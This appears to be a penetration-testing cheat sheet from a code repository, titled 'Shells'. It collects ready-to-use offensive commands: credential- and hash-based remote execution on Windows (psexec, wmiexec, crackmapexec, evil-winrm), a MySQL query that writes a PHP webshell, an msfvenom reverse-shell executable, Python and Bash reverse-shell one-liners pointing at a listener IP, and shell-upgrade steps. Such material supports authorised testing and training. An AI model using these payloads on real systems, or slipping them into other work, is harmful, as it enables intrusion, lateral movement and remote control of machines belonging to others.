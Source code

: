 # Shells


## Windows Shell

### SMB

```bash
wmiexec.py <domain>\<user>:<pass>@<target>
winexe -U <domain>/<user>%<pass> //<target> cmd.exe /c dir C:\
python psexec.py '<user>:<pass>@<target>'

crackmapexec smb --exec-method wmiexec <host> -u <user> -d <domain> -H <hash> -x <command>
crackmapexec smb --exec-method smbexec <host_file> -u <user> -d <domain> -H <hash> -x <command>
crackmapexec smb --exec-method atexec <host> -u <user> -d <domain> -H <hash> -x <command>
crackmapexec smb --exec-method mmcexec <host> -u <user> -d <domain> -H <hash> -x <command>

WmiExec.ps1 -ComputerName "<target>" -Command "Get-ChildItem C:\"
```

### WinRM

```bash
gem install evil-winrm
evil-winrm -i <target> -u <user> -p '<pass>'
```

---


## Webshell

### Mysql

```bash
SELECT '<?php passthru($_GET[cmd]);?>' INTO OUTFILE '<file_location>/<filename>'
```

---

## Reverse Shell


### Check outgoing ports 

**Internet**

- [portquiz](http://portquiz.net/)

**local** 

```bash
# Generate and execute on target
msfvenom -p windows/shell/reverse_tcp_allports -f exe > test_firewall.exe

# Listen for incoming traffic
tcpdump -ni any host <target>
```

### Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_listener>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

---

## Get better shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
ctrl + z
stty raw -echo
fg
reset
```
> does not work for ZSH, use BASH !